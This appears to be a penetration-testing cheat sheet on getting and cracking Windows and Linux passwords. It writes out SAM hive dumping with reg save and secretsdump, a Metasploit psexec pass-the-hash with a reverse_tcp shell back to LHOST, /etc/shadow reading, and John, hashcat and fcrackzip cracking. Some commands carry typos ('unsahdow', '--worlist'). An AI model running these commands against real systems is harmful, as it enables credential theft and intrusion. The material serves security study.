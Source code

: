 # Passwords

## Obtaining Windows Passwords

Windows credentials may come from an Active Directory account or stored locally. Passwords are stored in two ways: The LAN Manager password hash and the NT password hash. They are often seen together separated by a colon and known as an NTLM hash pair. Neither are salted. LM hashes are limited to 14 characters.

### Finding Hashes

```bash
net user  # List user accounts
net user <user>  # Get more details of a specific user
```

Credentials are stored in the SAM database and we need to be an Administrator to see it.

```bash
# SAM file can be located in:
dir \windows\system32\config  # But not accessible while OS is running
# Values are also stored in the registry at:
HKEY_LOCAL_MACHINE\SAM
```

The SAM file is locked when the operating system is active. We will need to take a backup of the SAM file instead while the machine is active as well as the security file and the system file.

```bash
reg save hklm\sam sam.save
reg save hklm\security security.save
reg save hklm\system system.save
```

After copying the files over to Kali we can extract the hashes from the SAM database.

```bash
# Using samdump
samdump2 system.save sam.save
# Using pwdump
pwdump system.save same.save
# Using secrets dump from Impacket
python secretsdump.py -sam sam.save -system system.save LOCAL
```

If we have a Meterpreter session we can use the `hashdump` command to try to dump the hashes.

### Cracking Hashes

Now that we have a list of hashes we can place the hashes outputs into a file and then attempt to crack them using John The Ripper.

```bash
john myhash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=NT-old
```

Another tool we can use to find and crack hashes is Sam Inside (GUI).

### Passing Hashes

Pass-The-Hash is a different kind of authentication attack that allows us to use LM & NT hashes to gain access to a remote Windows host without having to know the actual password.

Example using Metasploit:

```bash
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST <IP>
msf exploit(psexec) > set LPORT <PORT>
msf exploit(psexec) > set RHOST <IP>
msf exploit(psexec) > set SMBUser <username>
msf exploit(psexec) > set SMBPass <hash>
msf exploit(psexec) > exploit
```

## Obtaining Linux Passwords

### Finding Hashes

On a standard Linux system the user accounts are stored in the `/etc/passwd` file. There will be an 'x' where the password used to be but is now stored in the file `/etc/shadow`.&#x20;

```bash
cat /etc/passwd
cat /etc/shadow
```

### Cracking Hashes

We can combine the two files to extract the user and password information and then attempt to crack them using John The Ripper.

```bash
unsahdow passwd shadow > full.txt
john full.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

## Password Cracking

### Cracking Hashes

#### Crackstation

[https://crackstation.net/](https://crackstation.net/)

#### JohnTheRipper

```bash
john linhash.txt --worlist=/usr/share/wordlists/rockyou.txt
john --show linhash.txt  # Show already cracked passwords for specific hashes
```

#### Hashcat

```bash
hashcat -m <mode> hash.txt wordlist.txt
```

### Cracking Files

#### Zip

```bash
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt file.zip
```

#### id\_rsa

```bash
```

### Other

#### Crunch

Crunch can create a wordlist based on criteria you specify. The output from crunch can be sent to the screen, file, or to another program.

```bash
crunch 10 10 -t password%%  # Generates list of 10 characters ending in 00-99
password00
...
password99

crunch 6 6 -t pass@@ -o pass.txt  # Generates list of 6 characters ending in aa-zz
passaa
...
passzz
```

#### CeWL

CeWL (Custom Word List generator) is a ruby app which spiders a given URL, up to a specified depth, and returns a list of words which can then be used for password crackers such as John the Ripper. Optionally, CeWL can follow external links.

CeWL can also create a list of email addresses found in mailto links. These email addresses can be used as usernames in brute force actions.

```bash
cewl <ip> -w meta.txt -d 3
```

